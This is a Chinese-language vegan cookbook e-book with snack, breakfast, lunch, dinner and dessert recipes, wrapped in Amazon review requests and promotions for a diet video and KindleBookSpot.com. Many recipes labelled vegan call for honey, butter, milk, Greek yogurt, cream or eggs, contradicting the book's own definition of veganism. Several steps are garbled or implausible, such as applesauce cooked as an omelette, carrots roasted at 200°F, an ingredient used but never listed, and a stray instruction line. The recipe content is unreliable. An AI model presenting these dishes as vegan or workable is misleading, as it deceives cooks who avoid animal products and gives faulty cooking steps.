下一步是采购你需要的所有配料，这样你就可以开始烹饪了！

最后，如果你喜欢本书，我想请你帮个忙。你能否好心在亚马逊上为本书留下评论？我将不胜感激！

[点击此处为本书在亚马逊上留下评论！](link)

我想触达尽可能多的人，更多评论将帮助我实现这一目标。谢谢你，祝你好运！

**另外，一定要点赞我的*Facebook*主页，并加入关于健康和我最新书籍的讨论！**

如果你喜欢本书，请查看该系列中的下一本书……

但等等，如果你还没有观看那个关于如何通过这个3周饮食计划减重的重要视频，你可能想看一看。[点击此处观看。](link)

如果你还没有，一定要看看我的新网站 [KindleBookSpot.com](KindleBookSpot.com)。这是我一直致力于的一个新项目，我真心希望它对读者有价值。我做这个网站是因为我想给你们一个更简单的方式，在一个地方找到最热门的折扣 Kindle 电子书。以下是我的网站提供的一些内容：

- 畅销免费 Kindle 电子书列表
- 打折的小说和非虚构类书籍
- 每周一书
- 精选书籍
- 在我的网站上推广你自己的书

这个网站不仅面向读者，也是新锐作者在成为畅销书之前推广新书的地方。所以，如果你想推广自己的书，请访问我的网站 [KindleBookSpot.com](KindleBookSpot.com)。

我希望这个网站对你有用，也希望能在这里见到你！

*订阅我们在 KindleBookSpot 不断壮大的社区，以便在最好的书打折和免费时收到通知。*

# 纯素饮食挑战

## 用这些美味快捷且符合预算的餐食开始纯素饮食

关于我最喜爱饮食的额外信息

另外，在 KindleBookSpot.com 获取更多免费和特价书籍

## 目录

- 引言
- 第1章 – 无肉小吃和开胃菜
- 第2章 – 素食早餐食谱
- 第3章 – 素食午餐食谱
- 第4章 – 素食晚餐食谱
- 第5章 – 素食甜点
- 结论

## 引言

我要感谢并祝贺你下载《纯素食谱：用这些美味快捷且符合预算的餐食开始纯素饮食》一书。

本书包含经过验证的步骤和策略，教你如何过纯素生活。人人都知道蔬菜的重要性，它们是更高品质、更健康生活的根基。但肉类就是有一种特质，使它们成为身份象征，无论是在餐盘上还是在更广泛的社会中。这本食谱旨在通过口味上的巨大变化来改变这一切，对蔬菜的重要性给予与几乎所有猪肉菜肴同等的重视。

这本食谱将向你展示各种美妙可口的菜肴，证明你可以大大提升蔬菜的声誉，并让它们成为用餐时的主角。此外，这些菜肴制作简单，而且绝对更省钱。

那么纯素饮食由什么组成？它主要包含植物性食物，包括蔬菜、坚果、水果和谷物。请记住，纯素者不吃任何来自动物的东西，包括蛋类和乳制品等动物制品。


## 本书将教你：

-   哪些食物应该成为你的朋友，哪些不应该
-   为什么你应该吃蔬菜
-   早餐、午餐、晚餐和零食食谱
-   以及更多内容！

那你还等什么？现在就开始阅读，从今天起改变你的生活方式吧！

再次感谢你下载本书，希望你喜欢它！

别忘了看看我最喜欢的饮食法之一，并了解我如何通过文末的3周饮食法快速减掉顽固多余脂肪的策略。

## 开始之前……福利：获取我提供的更多免费视频和书籍！

感谢阅读我的书！希望你能从中获得极好的价值。我想通过提供更多与健康相关的免费视频、书籍和信息来感谢你！

只需点击下方链接，并在我的网站上输入你的电子邮箱地址！

如果你认真想要改变饮食和健康，你获得的一切都会对你有用。我将提供：

-   我写的更多书籍
-   制作特色菜肴的视频
-   关于我最喜欢的健康相关产品的信息
-   以及更多！

点击此处获取所有这些信息！

## 第一章——无肉小吃和开胃菜

吃素这件事总让人望而却步，只想坚持过去那种由肉类、甜食和加工食品组成的旧饮食习惯。但谁说不能再享受吃它们的乐趣呢？只不过这一次，要用素食食材，以纯素的方式来做。

### 1. 咸味蛋糕（Cake Salé）

食材：

-   125克面粉
-   1茶匙泡打粉
-   50毫升油
-   50毫升杏仁奶
-   ¼杯苹果酱相当于1个鸡蛋
-   50克素食山羊奶酪
-   50克橄榄
-   盐和胡椒

做法：

1.  将烤箱预热至300°F。给松饼模具抹油并撒粉。
2.  将面粉与泡打粉筛入一个大碗中。混合油、牛奶和苹果酱。搅拌均匀。拌入奶酪和橄榄。用盐和胡椒调味并混合。
3.  用勺子舀入松饼模具，烘烤15分钟，直到膨胀且颜色呈浅棕色。

### 2. 奶酪吐司

食材：

-   2片厚面包
-   1个小红洋葱，切碎
-   100克素食切达奶酪
-   1茶匙颗粒芥末酱
-   4汤匙素食黑啤酒
-   素食伍斯特酱

做法：

1.  将面包片烤好，放凉。
2.  混合红洋葱、奶酪、芥末、黑啤酒和伍斯特酱，堆在烤面包上。
3.  放在烤架下烤至金黄色。
4.  配一杯茶食用。

### 3. 血橙胡萝卜沙拉

食材：

-   10根中等胡萝卜，切片
-   3个血橙
-   一小撮糖
-   200毫升橄榄油
-   50毫升白葡萄酒醋
-   100克软质素食山羊奶酪
-   西洋菜，洗净
-   盐和胡椒适量

做法：

1.  将胡萝卜纵向切成尽可能薄的片。放入一碗冷水中保持脆度。放在一旁。之后，将橙子挤汁到另一个碗中。
2.  制作酱汁：将糖和橙汁混合，直到果肉瓣散开。倒入橄榄油和醋，用盐和胡椒调味。
3.  沥干胡萝卜，淋上血橙混合物。将山羊奶酪弄碎，最后在上面放上西洋菜。

### 4. 红扁豆汤

食材：

-   3汤匙橄榄油
-   1瓣大蒜，去皮
-   1个洋葱，去皮
-   盐和胡椒适量
-   1茶匙孜然粉
-   1茶匙香菜粉
-   150克红扁豆
-   1升蔬菜高汤
-   半个柠檬的汁
-   2汤匙切碎的欧芹

做法：

1.  在大平底锅中加热橄榄油。加入大蒜、洋葱，用盐和胡椒调味。煮8分钟，或直到洋葱略微金黄。
2.  加入孜然粉、香菜粉、扁豆和蔬菜高汤。煮沸12分钟，或直到扁豆变软。
3.  离火，倒入柠檬汁。撒上切碎的欧芹即可食用。

### 5. 奶油酱芦笋西洋菜

食材：

-   1瓣大蒜
-   2汤匙苹果醋
-   2汤匙全粒芥末酱
-   100毫升酸奶油
-   15根芦笋
-   2把西洋菜
-   1个红洋葱，切丝

做法：

1.  将大蒜、苹果醋、芥末和酸奶油混合在一起。放在一旁。
2.  同时，在大平底煎锅中加热油，放入芦笋翻炒8分钟，或直到变嫩。
3.  在大盘中摆好芦笋、西洋菜和洋葱丝。淋上酱汁。这道菜最好配面包食用。

### 6. 红薯胡萝卜汤配腰果青酱

食材：

-   2汤匙橄榄油
-   2个中等红薯，去皮切丁
-   5根胡萝卜，去皮切丁
-   3瓣大蒜，切碎
-   1个大洋葱，切丁
-   新鲜姜根
-   盐和胡椒适量
-   1.2升蔬菜高汤

腰果青酱部分：

-   平叶欧芹，切碎
-   新鲜香菜叶，切碎
-   1根香茅，切碎
-   1大瓣大蒜，切碎
-   100毫升特级初榨橄榄油
-   1汤匙切碎的腰果
-   半个青柠的汁
-   盐和胡椒适量

做法：

1.  在大平底锅中加热橄榄油。加入红薯、胡萝卜、大蒜、洋葱、姜、盐和胡椒。加入高汤并煮沸。继续煮至所有蔬菜变软。
2.  制作青酱：将欧芹、香菜、香茅、大蒜、橄榄油、腰果、青柠、盐和胡椒放入食品加工机中混合。搅打至混合物顺滑蓬松。
3.  上桌时，将汤盛入碗中，用新鲜香菜装饰。淋上一茶匙香菜腰果混合物。即可食用。

### 7. 纯素意面沙拉

食材：

-   7盎司多谷物意面
-   1瓣大蒜，对半切
-   1汤匙亚麻籽油
-   2个烤红椒
-   1汤匙香醋
-   ½杯椰奶酸奶
-   ¼杯罗勒叶
-   4杯嫩芝麻菜
-   2盎司Tofutti奶油奶酪

做法：

1.  按照包装说明准备意面。用冷水冲洗并沥干。
2.  同时，将大蒜、油和红椒放入食品加工机中打成泥。加入醋，搅打至顺滑。加入酸奶，脉冲搅打至充分混合。转移到一个大碗中。将罗勒切成细条，拌入碗中。将意面和罗勒加入酸奶混合物中。拌匀裹上。
3.  在大盘中摆好芝麻菜叶。上面放意面混合物和Tofutti奶油奶酪。

## 第二章——素食早餐食谱

俗话说，早餐为王。这些快速、简单又健康的纯素早餐食谱，一定能让你充满活力地度过早晨，直到午餐时间。而且它们也很省钱。好好享用吧！

### 1. 烤芦笋软奶酪意式煎蛋饼

食材：

-   12根芦笋
-   1½茶匙植物油
-   2撮盐
-   3撮黑胡椒
-   1杯苹果酱
-   4汤匙橄榄油
-   150克低脂奶油奶酪

做法：

1.  在芦笋上淋植物油，用盐和胡椒调味。烤3-4分钟，确保不要烤过头，因为芦笋要带点脆感。
2.  用叉子把苹果酱搅打均匀。加入盐和胡椒。
3.  在小煎锅中加热橄榄油，倒入苹果酱混合物。当煎蛋饼半凝固时，把芦笋和软奶酪放在上面。调低火力，将煎蛋饼滑到餐盘中。
4.  最后在上面淋少许橄榄油。立即上桌。


### 2. 无小麦花椰菜奶酪

### 食材

- 1 颗花椰菜
- 2 汤匙枫糖浆
- 1 汤匙橄榄油
- 盐和胡椒适量
- 350g 法式酸奶油
- 50g 素食格吕耶尔奶酪，磨碎
- 2 茶匙第戎芥末
- 1 汤匙素食帕尔马风味奶酪，磨碎
- 1 汤匙新鲜细香葱，切碎

### 做法

- 1. 将烤箱预热至375°F。将花椰菜切成小朵，放入碗中与枫糖浆和橄榄油拌匀。加入盐和胡椒调味。转移到烤盘中，烘烤15分钟。
- 2. 将法式酸奶油、格吕耶尔奶酪和芥末放入碗中，倒入烤好的花椰菜。
- 3. 撒上帕尔马风味奶酪，放回烤箱。再烘烤10分钟。撒上细香葱即可食用。

### 3. 菠菜面包

### 食材

- 250g 杏仁粉
- 1 ½ 茶匙无麸质泡打粉
- ½ 茶匙凯尔特海盐
- ¼ 茶匙小苏打
- 2 把英国菠菜，焯水、沥干并去梗
- 60ml 无添加椰奶
- 1 汤匙苹果醋
- 1 茶匙鲜榨柠檬汁
- 1 根香蕉 = 2 个鸡蛋（鸡蛋替代品）
- 植物油

### 做法

- 1. 将烤箱预热至345°F。给长条烤模抹油，并铺上烘焙纸。
- 2. 在大碗中混合面粉、泡打粉、盐和小苏打。将菠菜叶与椰奶、醋、柠檬汁、香蕉和植物油放入搅拌机中打碎。
- 3. 将混合物舀入长条烤模，烘烤45分钟。倒扣在网架上冷却。即可食用。

### 4. 南瓜鹰嘴豆派

### 食材

- 1 茶匙芫荽籽
- 1 茶匙孜然粉
- 1 茶匙甜椒粉
- 1 茶匙孜然籽
- ½ 茶匙肉桂粉
- 6 汤匙橄榄油
- 青南瓜，去皮切块
- 2 个香蕉红葱头
- 大蒜
- 80g 去皮杏仁
- 熟鹰嘴豆，沥干
- 50g 葡萄干
- ½ 把香菜
- 2 汤匙柠檬汁
- 无盐黄油
- ¼ 杯苹果酱
- 30g 芝麻
- 石榴籽
- 3 汤匙稀蜂蜜

### 做法

- 1. 将烤箱预热至375°F。在锅中炒香芫荽籽和孜然籽。用研钵和杵捣碎研磨，加入甜椒粉、孜然粉、肉桂粉、一半橄榄油和一撮盐。
- 2. 将南瓜放入烤盘，与香料油混合物拌匀。烘烤25分钟。
- 3. 与此同时，在大平底锅中加热剩余橄榄油，放入红葱头翻炒。煮至焦糖化。加入大蒜和杏仁，煮3分钟。盛出。加入鹰嘴豆、葡萄干和南瓜，捣碎。加入香菜和柠檬汁，调味。
- 4. 铺一张面皮，刷上融化黄油，再盖上一层面皮。舀入四分之一南瓜馅，折起两侧，卷起并扭成螺旋状。放在烤盘上。
- 5. 在表面刷上苹果酱，撒上芝麻。烘烤20分钟，淋上蜂蜜并撒上石榴籽。

### 5. 菠菜煎蛋饼配番茄莎莎酱

### 食材

**煎蛋饼用料**

- 1 汤匙特级初榨橄榄油
- 2 瓣大蒜，切末
- 1 个小洋葱，切末
- 1 包菠菜，解冻并充分沥干
- 2 根香蕉 = 鸡蛋替代品
- 1/3 杯脱脂牛奶
- ½ 杯低脂马苏里拉奶酪丝

**莎莎酱用料**

- 4 个李子番茄，切碎
- 1 瓣大蒜，切末
- 2 根小葱，切末
- 1 汤匙新鲜青柠汁
- 2 汤匙新鲜香菜，切末
- ¼ 茶匙盐
- 1/8 茶匙黑胡椒粉

### 做法

- 1. 制作煎蛋饼：将烤箱预热至350°F。在不粘煎锅中加热油。加入大蒜和洋葱，翻炒3分钟。放入菠菜，并将火调小。
- 2. 在碗中捣碎香蕉，倒入牛奶，搅打至起泡。将混合物倒在菠菜上，煮5分钟。撒上奶酪，放入烤箱烘烤8分钟。
- 3. 制作莎莎酱：在大碗中混合番茄、大蒜、小葱、新鲜青柠汁、香菜、盐和胡椒。浇在煎蛋饼上即可食用。

### 6. 蜂蜜釉面包卷

### 食材

- 300g 普通白小麦面粉
- 50g 糖
- 1.5g 速溶酵母
- 200g 牛奶
- 6g 盐
- 植物油

**馅料：**

- 25g 混合糖渍果皮
- 75g 葡萄干
- 橄榄油
- 50g 红糖

**釉料：**

- 蜂蜜，融化

### 做法

- 1. 在大碗中放入面粉，并在中间挖一个坑。将糖和酵母放入坑中，然后倒入牛奶。盖上盖子，静置1小时。
- 2. 将所有材料聚拢成一个大面团，揉10分钟。加入油和盐，再揉10分钟。将面团放回碗中，静置30–45分钟。
- 3. 与此同时，将干果、黄油和糖混合，制作馅料。
- 4. 取出面团，刷上橄榄油。在表面撒上糖和水果混合物使其裹匀。将面团卷起，卷成紧实的香肠状。切成8片，放入450°F的烤箱中烘烤。
- 5. 烘烤15分钟后取出。淋上融化的蜂蜜即可食用。

### 7. 早餐花生燕麦

### 食材

- ¼ 杯杏仁奶
- 1 ½ 汤匙花生酱
- ½ 杯水
- ¼ 杯燕麦
- 1 汤匙椰奶酸奶
- 1 茶匙花生，切碎

### 做法

- 1. 将杏仁奶与花生酱搅打均匀，混合至顺滑。加入水，搅打至混合物顺滑。拌入燕麦。
- 2. 盖上保鲜膜，但留一个小口让蒸汽排出。用高火微波1分钟，煮至顺滑。取出，冷却5分钟。
- 3. 将混合物舀入碗中。放上椰奶酸奶和花生即可食用。

## 第 3 章 – 素食午餐食谱

纯素菜肴的优点在于，它们本是传统食物，正等待被发现并转化为精美、易做且健康的菜肴。例如，预先烤制胡萝卜可以带出其天然甜味，并与素食奶酪和香料均匀平衡。而且，还有许许多多蔬菜等待被发现！

### 1. 烤番茄茄子帕尔马干酪

#### 食材

- 6 个大番茄
- 9 茶匙特级初榨橄榄油
- 1 个小洋葱，切细末
- 2 把罗勒叶
- 盐和胡椒适量
- 3 汤匙普通面粉
- 400g 小茄子，切成圆片
- ¼ 杯苹果酱
- 200g 素食马苏里拉奶酪

#### 做法

- 1. 将烤箱预热至400°F。
- 2. 制作番茄盖：切掉番茄顶部，约切下四分之一；去除籽，在空腔中加一撮盐，放置一旁。
- 3. 加热橄榄油，炒洋葱。加入保留的番茄果肉，放入一些罗勒叶。加盐和胡椒调味。
- 4. 另取煎锅，加热剩余橄榄油；将面粉撒在盘子上，把茄子圆片裹上面粉。将每个圆片蘸上苹果酱，分批煎制。
- 5. 准备在每个掏空的番茄中组装食材。先放茄子，再放一勺番茄酱、一片罗勒叶和马苏里拉奶酪。重复此步骤，直到番茄空腔填满。将酿番茄烘烤25分钟，淋上剩余的油。即可食用。

### 2. 香辣烤胡萝卜配芝麻和印度奶酪

#### 食材

- 1 茶匙孜然籽
- 1 汤匙芫荽籽
- 1 茶匙黑种草籽
- 2 汤匙芝麻
- 4 汤匙花生油
- 1 kg 胡萝卜，切薄片
- 1 汤匙稀蜂蜜
- 2 个青辣椒，去籽切片
- 盐和胡椒
- 200g 印度奶酪

**调味汁：**

- 半个柠檬的汁
- 芝麻油
- 花生油

#### 做法

- 1. 将烤箱预热至200°F。在干煎锅中加入孜然籽和芫荽籽。烘烤1分钟，然后粗略压碎。
- 2. 用同样方法烘烤黑种草籽和芝麻。将所有这些与花生油、胡萝卜、蜂蜜、辣椒混合，并用盐和胡椒调味。倒入烤盘中烤40分钟，放凉。
- 3. 制作调味汁：将所有材料混合，加入胡萝卜中拌匀。


煮熟并上菜。

### 3. 烤香料蔬菜

配料：

- 橄榄油
- 2 个红洋葱，去皮切片
- 盐和胡椒
- 2 瓣大蒜，去皮压成泥
- 1 茶匙孜然粉
- 2 茶匙香菜粉
- ¼ 茶匙丁香粉
- ½ 茶匙多香果粉
- 1 茶匙红酒醋
- 1 茶匙牛至
- 400 克罐装切碎番茄
- 1 汤匙糖
- 3 个红甜椒，切四瓣
- 3 根西葫芦，切片
- 2 个茄子，切片
- ¼ 杯苹果酱

做法：

- 1. 将烤箱预热至 350°F。在大锅中用中小火加热橄榄油并加入洋葱。用盐和胡椒调味，煮至变软。
- 2. 加入大蒜、孜然、香菜粉、丁香粉和香料。搅拌 1 分钟，然后加入醋、牛至、番茄和糖。让其慢炖。
- 3. 同时，在烤盘上加热少量油，分批烤红甜椒、西葫芦和茄子。转移到番茄锅中，慢炖 10 分钟。将蔬菜放入烤箱烘烤 15 分钟。
- 4. 从烤箱取出并拌入苹果酱。用盐和胡椒调味。放回烤箱再烤 15 分钟后上菜。

### 4. 烤蔬菜

配料：

- 大洋葱，切块
- 薄皮南瓜
- 芫荽芹，去蒂
- 蘑菇
- 胡萝卜
- 萝卜
- 4 瓣大蒜
- 4 汤匙橄榄油
- 盐和胡椒
- 8 个枣，切半去核
- 8 个黑橄榄，切半去核
- 硬豆腐，切块

做法：

- 1. 将烤箱预热至 400°F。将南瓜、芫荽芹、蘑菇、胡萝卜和萝卜倒入烤盘。
- 2. 将大蒜加入蔬菜中，舀入油并撒入混合物中。用盐和胡椒调味。
- 3. 将混合物放入烤箱，混合并烤制。20 分钟后加入枣、黑橄榄和豆腐。混合后放回烤箱。上菜。

### 5. 菠菜番茄鹰嘴豆咖喱

配料：

- 1 汤匙葵花籽油
- 1 瓣大蒜，切碎
- 1 个小洋葱，切碎
- 切碎的新鲜生姜根
- 1 汤匙 Bart Veeraswamy Moglai Curry Paste
- 400 克罐装切碎番茄
- 410 克罐装鹰嘴豆
- 250 克菠菜，撕碎
- 原味酸奶
- 4 汤匙新鲜香菜，切碎

做法：

- 1. 在中号平底锅中加热油，煮大蒜、洋葱和生姜 5 分钟或至变软呈金黄色。
- 2. 混合咖喱酱并加入切碎番茄。慢炖 5 分钟至酱汁变稠。
- 3. 拌入鹰嘴豆并煮沸 10 分钟。加入菠菜，慢炖至煮熟。
- 4. 配一勺酸奶上菜，并撒上香菜。

### 6. 墨西哥千层面

配料：

- 300 克蘑菇
- 1 个大洋葱，去皮切四瓣
- 2 瓣大蒜，压碎
- 1 个青辣椒，去籽
- 1 个青甜椒，去籽
- ½ 茶匙肉桂粉
- 1 茶匙孜然粉
- 1 茶匙香菜粉
- 4 汤匙油
- 1 汤匙番茄酱
- 400 克罐装红腰豆
- 1 包玉米饼
- 500 克酸奶油
- 50 克刨碎的素食奶酪

做法：

- 1. 将烤箱预热至 445°F。
- 2. 在食物处理器中将蘑菇、洋葱、大蒜、辣椒、甜椒、肉桂、孜然、香菜粉和油混合，直到混合物看起来像肉馅。
- 3. 在大煎锅中用大火烹饪。煮至混合物开始变棕色。加入番茄酱和豆子。用盐和胡椒调味。
- 4. 将一半混合物舀入烤盘并放入玉米饼。加入一些酸奶油并盖上另一张玉米饼。撒上奶酪，放入烤箱烤 15 分钟。上菜。

### 7. 法式洋葱汤

配料：

- 2 汤匙特级初榨橄榄油
- 5 杯切片洋葱
- 2 片月桂叶
- 1 茶匙干百里香
- 1/8 茶匙盐
- 5 杯蔬菜高汤
- 2 杯水
- 2 片全麦面包，烤至金黄并切半
- 4 茶匙磨碎亚麻籽
- Tofutti cheese
- 研磨黑胡椒

做法：

- 1. 将锅置于中火加热。加入油加热 1 分钟。加入洋葱、月桂叶、百里香和盐。搅拌并煮 10 分钟或至洋葱均匀变棕色。
- 2. 加入 ½ 杯高汤并快速慢炖 3 分钟。加入剩余的高汤和水。慢炖 5 分钟。取出并丢弃月桂叶。
- 3. 将汤舀入大碗中，放半片烤面包。在每片吐司上撒 1 茶匙亚麻籽。顶部放 Tofutti 奶酪。
- 4. 将汤置于热源 6 英寸处烤 2 分钟或至奶酪起泡。注意不要烤焦奶酪。用胡椒调味。

## 第 4 章 – 素食晚餐食谱

以下素食晚餐食谱看起来如此光鲜亮丽，每个人都会以为你一直在厨房里辛苦劳作并给预算带来压力。但事实是，你甚至可以用剩菜蔬菜制作全新的素食菜肴。

### 1. 配烤蔬菜的烩饭冷盘

配料：

- 1 升蔬菜高汤
- 一撮藏红花
- ¾ 杯油浸炭烤混合甜椒
- 2 个红洋葱，切楔形
- 1 个茄子，切块
- 1 根西葫芦，切片
- 175 克樱桃番茄，对半切
- 2 瓣大蒜，切碎
- 1 根韭葱，切碎
- 1 茶匙辣椒片
- 250 克烩饭米
- 100 毫升素食白葡萄酒
- 175 克素食马苏里拉奶酪，切片

做法：

- 1. 将烤箱预热至 400°F。将蔬菜高汤煮沸并拌入藏红花。滤出甜椒并保留油。
- 2. 在烤盘中拌入洋葱、茄子和西葫芦。烤 20 分钟。取出并加入樱桃番茄，再烤 15 分钟。从烤箱取出并完全冷却。
- 3. 同时，炒大蒜、韭葱和辣椒片。加入米饭炒 2 分钟。加入白葡萄酒并煮沸。加入一勺高汤并继续搅拌，直到液体被吸收。
- 4. 置于 350°F 烤箱中。将面包模具铺好，将一半烩饭铺在模具底部。顶部放马苏里拉奶酪和甜椒。铺上蔬菜，最后用烩饭收尾，使表面平整。
- 5. 烘烤 40 分钟。从烤箱取出后上菜。

### 2. 蘑菇豆腐

配料：

- 1 汤匙葵花籽油
- ½ 茶匙花椒粉
- 5 瓣大蒜，压碎
- 5 厘米新鲜生姜，细刨
- 1 茶匙干辣椒片
- 1 汤匙豆瓣酱
- 250 克蘑菇
- 2 茶匙香醋
- 1 汤匙酱油
- 400 克硬豆腐，切块
- 1 茶匙芝麻油
- 青葱，细切

做法：

- 1. 在大火上加热炒锅中的油并加入花椒。立即拌入大蒜、生姜和辣椒片。
- 2. 将火调至中火，加入豆瓣酱、蘑菇、醋和酱油。偶尔搅拌 5 分钟。
- 3. 用小火加入豆腐块。淋上一些芝麻油并撒上青葱。上菜。

### 3. 椰子豆咖喱

配料：

- 3 汤匙植物油
- ¾ 茶匙芥末籽
- 10 片新鲜咖喱叶
- 1 个红洋葱，切碎
- 6 瓣大蒜，剁碎
- ½ 茶匙辣椒粉
- 2 茶匙香菜粉
- 1 茶匙孜然粉
- ½ 茶匙姜黄粉
- 盐
- 7 克青豆
- 400 克罐装红腰豆
- 60 克椰奶块
- 1 茶匙细砂糖
- 3 茶匙罗望子酱

做法：

- 1. 在大号不粘锅中加热油并加入芥末籽。爆响停止后，立即加入咖喱叶和洋葱。煮至洋葱半透明。
- 2. 加入大蒜和磨碎香料并加少许水。煮 2 分钟。
- 3. 加入豆类和椰子。加入另一杯水并煮沸。拌入糖和罗望子酱。调整调味。上菜。


### 4. 烤坚果绿蔬菜

### 配料
- 2 个青椒，切片去籽
- 2 根韭葱，切碎
- 3 根西葫芦，切片
- 2 汤匙橄榄油
- 130克青酱

### 顶部配料
- 1 汤匙橄榄油
- 25克素食帕尔马风格奶酪，刨丝
- 50克去壳开心果
- 1 片小麦面包

### 做法
1. 将烤箱预热至 440°F。在碗中，将青椒、韭葱和西葫芦与油和青酱一起拌匀。
2. 将蔬菜放入耐烤盘中烤 30 分钟。
3. 对于配料，将油、帕尔马风格奶酪、开心果和面包放入食物处理器中混合。将坚果碎撒在蔬菜上，再烤 10 分钟。食用。

### 5. 库斯库斯和混合蔬菜

### 配料
### 库斯库斯部分
- 500克库斯库斯
- 1 茶匙海盐
- 600毫升水

### 蔬菜炖菜部分
- 1.5 升蔬菜高汤
- 6 瓣蒜，拍碎
- 新鲜迷迭香
- 8 粒胡椒粒
- 2 片月桂叶
- 2 个红薯，切成长厚条
- 2 个洋葱，切四瓣
- 2 根胡萝卜，切成长条
- 1 个 marrow，切成长厚条
- 3 根韭葱
- 3 根芹菜茎
- 2 茶匙蜂蜜
- 3 个番茄，切四瓣
- 海盐和现磨黑胡椒

### 做法
1. 将烤箱预热至 350°F。将库斯库斯放入耐烤盘中。将盐拌入温水中，倒入库斯库斯上。盖上盖子，让库斯库斯吸收水分 10 分钟。
2. 同时，在大锅中放入高汤并煮沸。混合蒜、迷迭香、胡椒粒、月桂叶和盐。加入土豆、胡萝卜、洋葱和 marrow，煮 5 分钟。之后加入韭葱和芹菜茎拌匀。
3. 盖上盖子煮 25 分钟。检查调味，然后拌入蜂蜜和番茄。
4. 用叉子拨开库斯库斯并抹油，使颗粒松散并落回盘中以使其松软。在库斯库斯顶部点上黄油，放入预热好的烤箱烤 20 分钟。
5. 堆成一堆。取出蔬菜放在库斯库斯周围。将高汤倒入碗中，与蔬菜和库斯库斯一起食用。

## 第 5 章 – 素食甜点

没有什么能比得上浓稠的布丁，自制传统甜点简直是最好的。以下令人垂涎的食谱一定能满足你的甜食欲望，而不会注意到它们都是适合素食者的。

### 1. 焦糖苹果布丁

### 配料
- 2 个大苹果，去核切成 2 厘米的丁
- 125克自发粉
- 200克红糖
- ¼ 茶匙盐
- 1 茶匙香草精
- 1 汤匙橄榄油
- ¼ 杯苹果酱
- 200毫升牛奶
- 2 汤匙金色糖浆
- 150毫升沸水

### 做法
1. 将烤箱预热至 350°F。将苹果放在耐烤盘底部。均匀铺开。
2. 将面粉、半量糖和盐搅拌混合。同时，在另一个碗中混合香草精、橄榄油、苹果酱和牛奶。将两种混合物混合并短暂搅打，使其融合。之后将混合物倒入苹果上。
3. 在装有沸水的平底锅中倒入金色糖浆和剩余的糖。搅拌至糖溶解。然后均匀倒入盘中。撒上红糖，然后放入烤箱烤 30 分钟，或直到布丁顶部按压时有轻微弹性。食用。

### 2. 榛子杏仁膏

### 配料
- 100克去皮杏仁
- 125克烤榛子
- 1 汤匙橙花水
- ½ 茶匙研磨豆蔻籽
- 300克细砂糖

### 做法
1. 将杏仁和榛子磨至非常细。加入花水和豆蔻籽。
2. 将水和糖煮沸，直至达到软球阶段。软球是指糖浆滴入冷水时的反应状态。
3. 同时，使用机器搅拌器将糖浆倒入磨碎的坚果中，直至达到光滑的质地。冷却后用手揉捏。当面团看起来有光泽时停止揉捏。

### 3. 苹果核桃蛋糕

### 配料
### 蛋糕部分
- 橄榄油
- 细砂糖
- ¼ 杯苹果酱
- 2 茶匙肉桂
- 250克希腊酸奶
- 1 汤匙泡打粉
- 190克面粉
- 3 个苹果，切成 1.5 厘米的块

### 糖浆部分
- 150毫升水
- 75克流动蜂蜜
- 糖

### 做法
1. 将烤箱预热至 350°F。使用活底蛋糕模并抹油。
2. 将黄油和糖混合。打入鸡蛋然后拌入酸奶。拌入肉桂、泡打粉和面粉。充分混合后再加入苹果。
3. 将面糊倒入活底模中，烤 1 小时。从烤箱中取出冷却，同时制作糖浆。
4. 制作糖浆，将所有原料混合并煮沸。让其微微沸腾直至酱汁变稠。
5. 将糖浆倒入蛋糕上静置 10 分钟，并撒入核桃，配以希腊酸奶食用。

### 4. 香蕉炸饼

### 配料
- 蔬菜油
- 100克鹰嘴豆粉
- ¼ 茶匙小苏打
- 150毫升水
- 2 根香蕉，切片

### 糖浆部分
- 4 汤匙枫糖浆
- 2 汤匙水
- 豆蔻籽
- 一撮干玫瑰花瓣
- 去壳开心果

### 做法
1. 在大锅中加热油。
2. 同时，在大碗中放入面粉和小苏打。拌入水并充分搅打。
3. 在小锅中加热枫糖浆、水、豆蔻籽、干玫瑰花瓣和去壳开心果，煮沸 2 分钟。
4. 将裹上面糊的香蕉放入平底锅中，分批煎至金黄色。
5. 淋上准备好的糖浆。食用。

### 5. 大黄柠檬奶油

### 配料
- 400克大黄
- 150毫升素食白葡萄酒
- 100克细砂糖
- 175克柠檬酱
- 300毫升淡奶油
- 15克去壳开心果
- 8 颗糖渍杏仁

### 做法
1. 在小锅中放入大黄、葡萄酒和糖。小火慢煮 10 分钟。从火上移开并完全冷却。
2. 将柠檬酱和奶油一起搅打。将大黄和奶油分层装入玻璃杯，以奶油收尾。盖上盖子冷藏。
3. 上桌前，可撒上开心果和糖渍杏仁。

## 结语

再次感谢您下载本书！

我希望本书能帮助您熟悉各种健康、美味且经济实惠的素食食谱。素食，尤其是纯素饮食，确实很难抵制，尤其是肉类。但只要掌握正确的知识，并拥抱一种全新的、均衡且以蔬菜为主的饮食生活方式，您一定能克服对肉类的渴望。下次在餐厅用餐时，您会惊讶地发现自己拒绝了猪排或排骨。

下一步是将您从这本食谱书中学到的食谱付诸实践，并为所爱的人烹饪。您也可以与朋友或对纯素生活方式感兴趣的人分享这些食谱。毕竟，您所需要的只是一本好的纯素食谱书、合适的纯素食谱、食材，就万事俱备了。永远不晚！现在正是开启您通往更健康自我的纯素之旅的最佳时机。

最后，如果您喜欢这本书，我想请您帮个忙，能否在亚马逊上为本书留下评论？我将不胜感激！

[点击此处在亚马逊为本书留下评论！](...)

我希望能让更多人受益，更多的评论将有助于我实现这一目标。感谢您，祝好运！

**另外，请务必点赞我的 [Facebook](...) 页面并加入关于健康和我最新书籍的讨论！**

如果您喜欢这本书，请查看系列中的下一本书…

但等等，如果你还没有观看关于如何通过这个为期3周的饮食计划减肥的重要视频，你可能想要看一看。[点击此处观看。](#)

## 奖励：获取我提供的更多免费视频和书籍！

感谢你阅读我的书！我希望你从中获得了巨大的价值。为了表示感谢，我将为你提供更多与健康相关的免费视频、书籍和信息！

只需点击下方链接，在我的网站上输入你的电子邮件地址即可！

如果你真的想改变自己的饮食和健康状况，你将获得的所有内容都会对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 关于我最喜欢的健康产品的信息
- 以及更多！

点击此处获取所有这些信息！

如果你还没有，一定要去看看我的新网站 KindleBookSpot.com。这是我一直在做的一个新项目，我真的希望它对读者有价值。我创建这个网站是因为我想让大家更容易在一个地方找到最热门的折扣Kindle图书。以下是我的网站提供的一些细节：

- 畅销免费Kindle图书列表
- 打折的小说和非小说类图书
- 每周一书
- 精选图书
- 在我的网站上推广你自己的书

这个网站不仅面向读者，也是新兴作家在作品成为畅销书之前推广新书的地方。所以如果你想推广自己的书，请访问我的网站 KindleBookSpot.com。

我希望这个网站对你有用，也希望能在那里见到你！

KindleBookSpot.com。

